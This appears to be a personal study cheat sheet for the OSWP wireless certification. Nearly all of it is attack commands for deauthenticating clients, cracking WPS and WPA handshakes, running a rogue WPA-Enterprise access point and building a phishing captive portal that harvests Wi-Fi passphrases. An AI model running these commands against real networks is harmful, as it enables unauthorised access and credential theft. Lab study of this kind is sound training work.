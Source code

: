 # OSWP

## Aircrack-ng 
```
sudo airmon-ng check
sudo airmon-ng check kill

sudo /usr/sbin/airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng start wlan0 [channel #]
sudo airmon-ng stop wlan0

iw wlan0 info
iwconfig
ifconfig
```
## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng [interface] -channel [#] --bssid [BSSID] --essid [ESSID] -w [file.cap]
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng wlan0mon -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific client ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
#### Set card to channel [#]
```
sudo airmon-ng start wlan0 # 
```
### Deauth
```
sudo aireplay-ng [attack type] [# of deauths] -a [BSSID] -c [clientBSSID] [interface]
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 -c 35:08:04:09:3D:40 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
0 | continuous
-a|BSSID
-c|client MAC

## WPS Attack
```
sudo wash -i wlan0mon
-5 for 5GHz
airodump-ng --wps wlan0mon
sudo reaver -b 6C:5A:B0:5D:A6:A6 -i wlan0mon -v
sudo reaver -b 6C:5A:B0:5D:A6:A6 -i wlan0mon -v -K
sudo reaver --interface wlan0mon --bssid 6C:5A:B0:5D:A7:DC --channel 9 -vv -N -O reaver_output.pcap --pixie-dust 1

sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}
```
## Aircrack-ng
```
aircrack-ng -w [path to wordlist] -e [ESSID] -b [BSSID] [file.cap]
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
### John the Ripper
```
sudo nano /etc/john/john.conf
john --wordlist=/usr/share/john/password.lst --rules --stdout | grep -i Password123
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap

grep JTR | cut -f2 >> [output.txt]
john --format=netntlm [timothy.txt] --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hashcat
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx
hashcat -m [hashtype] [hash] [dictionary]
hashcat -m 2500 output.hccapx /usr/share/john/password.lst

```
## Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
gzip -d file .gz
```
## NMAP
```
sudo nmap -sT -p- 10.10.8.8
-A = everything
-sS = SYN scan
-sT = scan TCP
-sU = scan UDP
-p- = all ports
```
## NetCat
```
sudo nc -z -v 10.10.8.8
-z = open ports
-v = verbose
```
## Attacking WPA Enterprise
```
sudo airodump-ng wlan0mon
sudo apt install freeradius
/etc/freeradius/3.0
nano ca.cnf, nano server.cnf
rm dh
make
sudo apt install hostapd-mana
mana.conf
mana.eap_user
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
## Certs
```
openssl x509 -in CERT_FILENAME -noout -enddate
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
make-ssl-cert generate-default-snakeoil --force-overwrite
```

## Captive Portal
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 https://www.megacorpone.com
/var/www/html/portal/index.php
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
/var/www/html/portal/login_check.php

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
mco-dnsmasq.conf
sudo dnsmasq --conf-file=mco-dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
sudo netstat -lnp

sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53

/etc/apache2/sites-enabled/000-default.conf > mod_rewrite/mod_alias
sudo a2enmod rewrite
sudo a2enmod alias
systemctl restart apache2

/etc/apache2/sites-enabled/000-default.conf > SSL
sudo a2enmod ssl
sudo systemctl restart apache2

nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'
sudo tail -f /var/log/apache2/access.log
sudo cat /tmp/systemd-private-0a505bfcaf7d4db699274121e3ce3849-apache2.service-lIP3ds/tmp/passphrase.txt
```
## Manual Network Connections
```
wpa_supplicant.conf
sudo wpa_supplicant -i wlan0 -c wifi-client.conf
sudo dhclient wlan0
sudo iw list
sudo ip link set wlan0 up
sudo ip addr add 10.0.0.1/24 dev wlan0
dnsmasq.conf
sudo dnsmasq --conf-file=dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo apt install nftables
sudo nft add table nat
sudo nft 'add chain nat postrouting { type nat hook postrouting priority 100 ; }'
sudo nft add rule ip nat postrouting oifname "eth0" ip daddr != 10.0.0.1/24 masquerade
sudo hostapd hostapd.conf
```
## Proof.txt
```
curl http://192.168.1.1/proof.txt
```
